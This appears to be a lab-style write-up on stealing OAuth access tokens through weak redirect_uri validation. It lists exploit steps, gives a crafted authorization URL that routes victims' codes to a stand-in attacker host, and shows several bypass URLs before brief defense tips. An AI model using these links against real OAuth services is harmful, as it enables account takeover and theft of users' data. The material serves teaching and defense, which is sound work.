 # Stealing Access Tokens via OAuth Misconfigurations

When the `redirect_uri` parameter isn't properly validated by the OAuth Authorization Server, attackers can trick victims into giving them their access token or authorization code.

---

## Attack Overview
- **Vulnerable condition:** Authorization server allows any `redirect_uri` (even attacker-controlled URLs) or insufficiently validates only by `startswith`, substring, etc.
- **Effect:** Authorization code (and thus access token) is sent to attacker after victim clicks a social engineered link and logs in.

## Exploit Steps (Lab Scenario)
1. **Find `client_id`:** Complete a normal OAuth login flow and note client_id.
2. **Create malicious auth URL:**
   ```
   http://hubgit.htb/authorization/auth?response_type=code&client_id=<clientid>&redirect_uri=http://attacker.htb/callback&state=xyz
   ```
3. **Send link to victim** via phishing, open-redirect, or XSS. Victim authenticates as normal.
4. **Victim's browser is redirected (after login) to attacker-controlled endpoint:** Authorization code now in attacker's logs (`attacker.htb/log`).
5. **Attacker completes OAuth flow:**
   - Uses code to request access token from Authorization Server, impersonating victim.
6. **With access token in hand, attacker can now:**
   - Make requests to the client/resource server as victim
   - e.g. access personal data, change settings, etc.

---

### Bypassing Flawed Validation
- Real-world code may only do a *naive* match like:
   - `redirect_uri.startswith("http://academy.htb")`
- Possible bypasses:
   - `http://academy.htb.attacker.htb/callback`
   - `http://academy.htb@attacker.htb/callback`
   - `http://attacker.htb/callback#a=http://academy.htb`
   - `http://attacker.htb/callback?url=http://academy.htb`

---

## Defense Tips
- Allow ONLY fully whitelisted, exact-match URLs for redirect_uri.
- Never permit subdomains, fragments, or userinfo tricks.
- Audit for open redirect/parameter pollution in OAuth integrations.

---
**In all flows, always imagine yourself as the authorization server: where could you be tricked into sending tokens somewhere you shouldn't?**
